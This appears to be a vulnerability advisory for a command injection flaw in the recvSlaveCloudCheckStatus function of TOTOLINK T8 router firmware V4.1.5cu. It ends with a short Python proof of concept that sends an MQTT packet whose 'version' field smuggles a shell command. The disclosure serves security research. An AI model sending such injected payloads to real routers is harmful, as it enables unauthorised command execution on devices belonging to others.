

# A command injection vulnerability in the function recvSlaveCloudCheckStatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function recvSlaveCloudCheckStatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.


## Firmware information

* Manufacturer's address:https://www.totolink.net/



* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service


In function `recvSlaveCloudCheckStatus`,The "version" parameter does not filter user input, which can cause command injection vulnerabilities


POC

```
import paho.mqtt.client as mqtt
client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", b'{"version": ";`ls>/tmp/recvSlaveCloudCheckStatus.txt`;"}')
```

